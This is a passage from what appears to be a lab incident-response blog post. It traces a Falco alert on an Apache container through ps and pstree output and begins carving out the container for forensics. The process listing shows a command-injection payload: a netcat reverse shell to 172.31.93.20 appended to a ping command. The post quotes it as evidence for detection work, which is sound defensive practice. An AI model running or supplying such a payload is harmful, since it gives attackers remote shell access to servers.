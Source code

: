 Comparing the rule to the process cmdline included in the output_fields we can see clearly why it was triggered. 

On the host when we run `ps aux` we see an output similar to the one below. 

```bash
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
www-data   12520  0.0  0.0   4296   796 ?        S    21:53   0:00 sh -c ping  -c 4 & nc 172.31.93.20 9876 -e /bin/sh
```

Digging deeper if we run `pstree -asp 12520` we see that the nc process is a child of apache2. 

```bash
pstree -asp 12520

systemd,1
  └─containerd-shim,11971 -namespace moby -id 60795d68fdeeda1241083ffb35c96e3df8c295380ec4da7bc2b277db4d428216 -address /run/containerd/containerd.sock
      └─main.sh,11992 /main.sh
          └─apache2,12323 -k start
              └─apache2,12336 -k start
                  └─sh,12520 -c ping  -c 4 & nc 172.31.93.20 9876 -e /bin/sh
                      └─sh,12522 -c /bin/sh
                          └─sh,12523
```

nc usage is common in most place where Linux is used. It is not common to see nc as a child process of apache2. At this point several additional alerts from Falco start to roll in, and after speaking with the application owner we learn nc was added to the container for troubleshooting connectivity issues, but they always ran it from a shell in the container as root never as the apache user (not ideal but it is what it is). The app owners also confirmed they have not been doing any testing recently. If this were a real scenario this host would probably be isolated if possible and attempts would be made to understand what kind of data is processed on the machine. Thankfully this is just a lab and all of that is out of scope for this post :-).

We know there is an active nc session, but what else has occured in the container? Let's dive into the image a figure it out. 

---
### Carving the running container out

First lets grab the eqivilant of a disk image of the running container this. We'll be able to perform an analysis on the image and it also preserves the image in the event that the container is killed. *Note: this post mainly focuses on the container itself, opperating within a Kubernetes cluster is highly likely in a scenario similar to this. There are additional things that should occur when performing analysis on a Kubernetes cluster to preserve and protect both the running container and the host that the container is running on. Failure to do so may result in the entire node being terminated and all relevant evidence along with it.*

Lets determine the container id where this process lives. We can do this by looking at the `-id` parameter associated with the containerd-shim process from the pstree command. If multiple containers exist we would need to trace the tree up to the relevant container-shim process. Additionally in our scenario Falco provided the container id in the alert for us. If we want we can run the `docker ps` command to validate the container is still running.
